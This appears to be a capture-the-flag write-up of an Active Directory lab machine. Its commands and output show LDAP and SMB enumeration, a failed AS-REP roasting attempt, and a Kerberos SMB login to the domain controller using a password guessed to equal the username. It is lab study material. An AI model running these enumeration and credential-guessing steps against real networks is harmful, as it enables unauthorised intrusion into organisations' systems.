 ```bash
# numResponses: 2
# numEntries: 1

ldapsearch -H ldap://scrm.local -x -b "dc=scrm,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=scrm,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

# Shell as MiscSv
### SMB
`smbmap -H $IP -u null -p ''` found nothing.

* https://0xdf.gitlab.io/2022/10/01/htb-scrambled-linux.html

Because NTLM authentication is disabled, I won’t be able to use many of the standard tools here, and I won’t be able to access any service by IP address if it requires authentication.

```bash
smbclient -N -L \\\\$IP
session setup failed: NT_STATUS_NOT_SUPPORTED

crackmapexec smb $IP -u null -p ''
SMB         10.129.37.130   445    10.129.37.130    [*]  x64 (name:10.129.37.130) (domain:10.129.37.130) (signing:True) (SMBv1:False)
SMB         10.129.37.130   445    10.129.37.130    [-] 10.129.37.130\null: STATUS_NOT_SUPPORTED
```

### AS-REP roasting failed
```bash
impacket-GetNPUsers -dc-ip dc1.scrm.local -usersfile usernames_mock scrm.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User ksimpson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Luckily passwords are reset to be the username

### Kerberos auth again save the day
```bash
impacket-smbclient 'scrm.local/ksimpson:ksimpson@dc1.scrm.local' -k

impacket-smbclient 'scrm.local/ksimpson:ksimpson@dc1.scrm.local' -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
```